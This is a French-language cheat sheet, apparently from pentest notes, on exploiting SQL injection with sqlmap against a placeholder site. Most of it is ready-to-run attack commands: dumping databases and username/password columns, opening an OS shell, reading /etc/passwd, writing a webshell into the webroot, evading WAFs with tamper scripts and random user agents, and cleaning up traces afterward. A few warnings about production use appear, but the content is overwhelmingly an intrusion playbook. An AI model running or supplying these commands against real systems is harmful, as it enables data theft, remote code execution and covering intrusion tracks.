

Cette documentation détaille l'utilisation de **sqlmap** pour l'exploitation automatisée de vulnérabilités de type **SQL Injection** (SQLi).



> [!danger] Risques opérationnels
> L'utilisation de **--os-shell** ou **--file-write** peut corrompre la base de données ou rendre le service instable. L'option **--risk=3** inclut des tests potentiellement destructeurs (ex: UPDATE/DELETE) et ne doit pas être utilisée en environnement de production sans précaution.

> [!warning] Limitations
> L'option **--batch** est utile pour les scripts mais peut masquer des questions importantes sur le type d'injection ou le comportement à adopter face à des payloads spécifiques.

> [!tip] Debugging
> Toujours utiliser **--proxy** pour faire passer le trafic via **Burp Suite** afin de valider les requêtes envoyées et analyser les réponses du serveur.

> [!info] Prérequis
> L'injection SQL nécessite souvent une compréhension préalable du schéma de la base de données.

## Configuration du proxy (Burp Suite) pour le debugging

Pour analyser les requêtes générées par **sqlmap** et inspecter les réponses du serveur en temps réel, il est impératif de configurer un proxy HTTP.

```bash
sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080"
```

[!tip]
Assurez-vous que **Burp Suite** est actif et que l'interception est configurée. Vous pouvez également utiliser `--proxy-file` pour charger une liste de proxies si nécessaire.

## Détection et test de vulnérabilité

### Tester si une URL est vulnérable
```bash
sqlmap -u "http://target.com/page.php?id=1" --batch
```

### Lister les bases de données
```bash
sqlmap -u "http://target.com/page.php?id=1" --dbs --batch
```

### Lister les tables d’une base spécifique
```bash
sqlmap -u "http://target.com/page.php?id=1" -D <nom_de_la_base> --tables --batch
```

### Lister les colonnes d’une table
```bash
sqlmap -u "http://target.com/page.php?id=1" -D <nom_de_la_base> -T <nom_de_la_table> --columns --batch
```

## Techniques d'injection manuelle pour validation

Avant de lancer une automatisation complète, validez la vulnérabilité manuellement pour éviter les faux positifs ou le blocage par WAF.

```bash
# Test de base avec un quote
' OR 1=1--

# Test de délai (Time-based)
' AND SLEEP(5)--

# Test d'union (déterminer le nombre de colonnes)
' ORDER BY 1--
```

## Gestion des faux positifs

**sqlmap** peut parfois interpréter des réponses HTTP comme des injections alors qu'il s'agit de comportements applicatifs normaux.

- **Utiliser `--string` ou `--not-string`** : Indiquez une chaîne de caractères présente uniquement dans la réponse positive ou négative.
- **Utiliser `--regexp`** : Pour valider la réponse via une expression régulière.
- **Réduire le niveau de test** : Si les résultats sont incohérents, baissez `--level` et `--risk`.

## Exploitation avancée (extraction de données)

### Extraire toutes les données d’une table
```bash
sqlmap -u "http://target.com/page.php?id=1" -D <nom_de_la_base> -T <nom_de_la_table> --dump --batch
```

### Filtrer les colonnes sensibles
```bash
sqlmap -u "http://target.com/page.php?id=1" -D users_db -T users -C "username,password,email" --dump --batch
```

## Exécution de commandes système

### Vérifier si l’utilisateur de la BDD a des privilèges DBA
```bash
sqlmap -u "http://target.com/page.php?id=1" --is-dba --batch
```

### Obtenir un shell interactif sur la machine cible
```bash
sqlmap -u "http://target.com/page.php?id=1" --os-shell --batch
```

### Exécuter une commande spécifique
```bash
sqlmap -u "http://target.com/page.php?id=1" --os-cmd "whoami" --batch
```

## Lecture et écriture de fichiers

### Lire un fichier sensible
```bash
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
```

### Écrire un fichier sur le serveur
```bash
sqlmap -u "http://target.com/page.php?id=1" --file-write="/home/user/backdoor.php" --file-dest="/var/www/html/shell.php"
```

## Bypass de protections

### Changer l’User-Agent pour éviter les détections
```bash
sqlmap -u "http://target.com/page.php?id=1" --random-agent --batch
```

### Contourner un WAF avec des scripts Tamper
```bash
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment --batch
```

| Tamper | Description |
| :--- | :--- |
| `randomcase` | Change la casse des requêtes SQL |
| `between` | Convertit `=` en `BETWEEN` |
| `space2comment` | Remplace les espaces par des commentaires SQL |

## Attaque ciblée avec techniques spécifiques

### Spécifier une technique d’injection
```bash
sqlmap -u "http://target.com/page.php?id=1" --technique=U --batch
```

| Technique | Description |
| :--- | :--- |
| `B` | Boolean-based Blind SQLi |
| `E` | Error-based SQLi |
| `U` | UNION-based SQLi |
| `T` | Time-based SQLi |
| `S` | Stacked Queries |

### Augmenter le niveau et le risque des tests
```bash
sqlmap -u "http://target.com/page.php?id=1" --level=5 --risk=3 --batch
```

## Exploitations JSON, POST, Cookies et Headers

### Injection SQL sur une API JSON
```bash
sqlmap -u "http://target.com/api" --method=POST --data='{"id":1}' --batch
```

### Injection SQL sur une requête POST
```bash
sqlmap -u "http://target.com/login.php" --method=POST --data="username=admin&password=admin" --batch
```

### Injection SQL sur un Cookie
```bash
sqlmap -u "http://target.com/page.php" --cookie="sessionid=12345" --batch
```

## Analyse des logs de la base de données

Si l'exploitation échoue, vérifiez les logs du serveur web et de la base de données (si accessible) pour identifier les erreurs de syntaxe SQL générées par les payloads.
- **MySQL** : `/var/log/mysql/error.log`
- **Apache** : `/var/log/apache2/error.log`

## Optimisation et performances

### Utiliser plusieurs threads pour accélérer l’analyse
```bash
sqlmap -u "http://target.com/page.php?id=1" --threads=10 --batch
```

### Nettoyer la session SQLMap
```bash
sqlmap --flush-session
```

## Nettoyage des traces (post-exploitation)

Après avoir terminé les tests, supprimez les fichiers temporaires créés par **sqlmap** sur le serveur cible (ex: fichiers UDF, webshells) et nettoyez les logs locaux.

```bash
# Supprimer les fichiers créés via --os-shell ou --file-write
# Vérifier les tables temporaires créées par sqlmap dans la BDD
DROP TABLE IF EXISTS <nom_table_sqlmap>;
```

Les techniques présentées ici s'inscrivent dans le cadre des méthodologies liées à la **SQL Injection**, à l'**Web Application Enumeration**, aux techniques de **WAF Evasion Techniques** et aux phases de **Post-Exploitation Basics**.